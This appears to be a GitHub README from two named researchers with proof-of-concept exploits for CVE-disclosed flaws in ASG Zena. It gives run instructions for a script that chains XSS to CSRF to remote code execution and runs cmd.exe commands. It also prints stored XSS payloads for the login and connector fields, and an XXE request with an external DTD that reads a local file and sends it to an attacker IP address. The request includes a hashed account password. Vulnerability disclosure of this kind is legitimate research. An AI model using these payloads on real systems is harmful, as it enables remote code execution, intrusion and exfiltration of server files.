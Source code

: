 # Zena
Proof of Concept code for XSS to CSRF to Remote Code Execution exploit for asg-zena
CVE-2021-45025 Cleartext Storage of Sensitive Information in a Cookie
CVE-2021-45026 Stored Cross Site Scripting (XSS)
Authors: James Barnett and Jeffrey Green
**To Run:**
- python CookieMonster.py <hostname/ip> <TLS/SSL - True or False> <cmd.exe command>
  - **Example: python3 CookieMonster.py 127.0.0.1 False "/c whoami > c:/out.txt"**


Basic payload and details and injection points

Zena – ClientManager:
XSS(Cross-Site Scripting):
• Type: Stored XSS – Unauthenticated
• Pages Affected: /zena/index.html
• Description: User input field(and probably more fields) on the Zena ClientManager login page allow for
an attacker to submit specially crafted javascript payloads that are persistently stored and executed
when a user on the Zena system navigates to Client Manager logs and shows details for the log.
POC code – placed into the username field on the login page: 

```</li><img/src='fail'/onerror=alert("vulnerable")></img>```

XSS(Cross-Site Scripting):
• Type: Stored XSS
• Pages Affected: /webconfig/index.html requires authentication. the webconfig page has a hardcoded default password.
• Description: Certain input fields in the connector creation allow for an attacker to submit specially
crafted arbitrary javascript payloads that are persistently stored and executed when loading the page
POC code - placed into the Name input field:

```</li><img/src='fail'/onerror=alert("vulnerable")></img>```

Proof of Concept code for XXE to SSRF to Data Exfiltration exploit for asg-zena
CVE-2021-45024
CVE-2021-45022 SSRF
Authors: James Barnett and Jeffrey Green

XXE(XML External Entity) (CWE-611):
• Type: SSRF and Exfiltration
• Pages Affected: /zena.index.html
• Endpoints Affected: oc_main/zenaweb/scheduler/operation
• Description: Several of the ClientManager’s import functions can be abused by manipulating the
XML import data to contain external entity values that can induce the server to perform certain
functions it was not intended to do. Ex. Reading a local file and exfiltrating it over an HTTP
request back to the attacker
Poc code - Request body to zena server:
```<?xml version="1.0" ?>
<!DOCTYPE r [
<!ELEMENT r ANY >
<!ENTITY % sp SYSTEM "http://52.15.202.214:8080/xxe.dtd">
%sp;
%param1;
%exfil;
]>
<PACKAGE CREATED="2022.02.15 21.49.34" EXCLUDE_PASSWORDS="NO" INCLUDE_AGENT_REFS="NO"
INCLUDE_DEF_REFS="NO" TYPE="4" UID="E311C8FC7118"><ITEMS><ITEM LIST_TYPE="4"
MODIFIED="2022.02.15 21.22.30" NAME="research" UID="A2A9235502DE"/></ITEMS><USERS><USER
MODIFIED="2022.02.15 21.22.30" NAME="research" REFERENCE="NO"
UID="A2A9235502DE"><![CDATA[<USER NAME="research"
PASSWORD="3jkY15nHscTNeexdKq+gVqiMsh1ngexPj4of7xliF3uDjnkTkJw7qq78ruSMvOGat"
UID="A2A9235502DE" LOGIN="research" DOMAIN="EC2AMAZ-57EH5UL" ALLRIGHTS="YES"
ALLAGENTS="YES"><DESCRIPTION></DESCRIPTION><ROLES/></USER>]]></USER></USERS></PACKAGE>```

External DTD code hosted on attacker server as xxe.dtd:

```<!ENTITY % data SYSTEM "file:///c:/sensative.txt">
<!ENTITY % param1 "<!ENTITY &#x25; exfil SYSTEM 'http://52.15.202.214:8080/?%data;'>">```


